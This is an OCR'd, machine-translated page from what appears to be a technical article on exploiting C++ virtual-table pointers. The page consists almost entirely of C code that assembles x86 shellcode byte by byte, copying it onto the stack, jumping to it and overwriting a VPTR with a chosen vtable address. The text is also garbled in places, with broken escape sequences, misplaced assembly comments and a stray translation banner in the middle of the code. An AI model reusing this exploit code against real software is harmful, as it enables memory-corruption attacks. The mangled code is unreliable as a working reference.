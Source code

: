 CBuf\[i++\]=\'\\x29\';CBuf\[i++\]=\'\\xCF\'; // subl% ecx,% edi

CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xFA\'; // movl%edi,%edx

CBuf\[i++\]=\'\\xF3\';CBuf\[i++\]=\'\\xA4\'; //repz movsb %ds:(%esi),%es:(%edi)

CBuf\[i++\]=\'\\xFF\';CBuf\[i++\]=\'\\xE2\'; //jmp \*%edx (stackcode)

//堆栈代码：

CBuf\[i++\]=\'\\xBE\'; // movl \$BufferAddress + \$NewBufferOffset,%esi

LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress+NewBufferOffset;i=i+4;

CBuf\[i++\]=\'\\xBF\'; //movl \$BufferAddress,%edi

LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress;i=i+4;

CBuf\[i++\] = \'\\x31\'; CBuf\[i++\] = \'\\xC9\'; // xorl% ecx,% ecx

CBuf\[i++\]=\'\\xB1\';CBuf\[i++\]=NewBufferSize; //movb \$NewBufferSize,%cl

CBuf\[i++\] = \'\\xF3\'; CBuf\[i++\] = \'\\xA4\'; // repz movsb% ds: (% esi),% es: (% edi)

CBuf\[i++\]=\'\\x30\';CBuf\[i++\]=\'\\xC0\';

CBuf \[i ++\] = \'\\xAA\';

//xorb %al,%al

//stosb %al,%es:(%edi)

CBuf \[i ++\] = \'\\ xBF\'; // movl \$BufferAddress + \$VPTROffset,%edi

> LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress+VPTROffset;i=i+4; CBuf\[i++\]=\'\\xB8\';

LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=VTABLEAddress;i=i+4;

CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xC3\'; //movl %eax,%ebx

CBuf \[i ++\] = \'\\xAB\'; // stosl%eax,%es:(%edi)

//movl \$VTABLEAddress,%eax

CBuf \[i ++\] = \'\\xB0\'; CBuf \[i ++\] = LastByte; //movb \$LastByte,%al

24/26

Machine Translated by Google

CBuf \[i ++\] = \'\\xAA\';

CBuf\[i++\]=\'\\x8B\';CBuf\[i++\]=\'\\x43\';

CBuf\[i++\]=(char)4\*IAddress;

CBuf\[i++\]=\'\\x9D\';

CBuf\[i++\]=\'\\x5B\';

CBuf\[i++\]=\'\\x59\';

CBuf\[i++\]=\'\\x5A\';

CBuf\[i++\]=\'\\x5E\';
